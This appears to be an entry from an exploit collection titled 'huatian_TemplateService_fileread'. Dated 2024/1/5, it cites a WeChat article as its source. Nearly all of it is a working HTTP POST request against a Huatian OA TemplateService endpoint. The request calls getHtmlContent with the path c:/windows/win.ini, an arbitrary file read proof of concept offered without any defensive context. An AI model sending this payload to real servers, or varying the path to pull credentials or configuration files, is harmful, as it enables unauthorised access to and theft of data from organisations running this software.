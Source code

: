 # huatian_TemplateService_fileread

2024/1/5 @2
from： https://mp.weixin.qq.com/s/mthc5LV5-McM_r6EqV3znw
```

POST /OAapp/bfapp/buffalo/TemplateService HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2919.83 Safari/537.36
Content-Type: text/xml
Content-Length: 101

<buffalo-call>
<method>getHtmlContent</method>
<string>c:/windows/win.ini</string>
</buffalo-call>
```
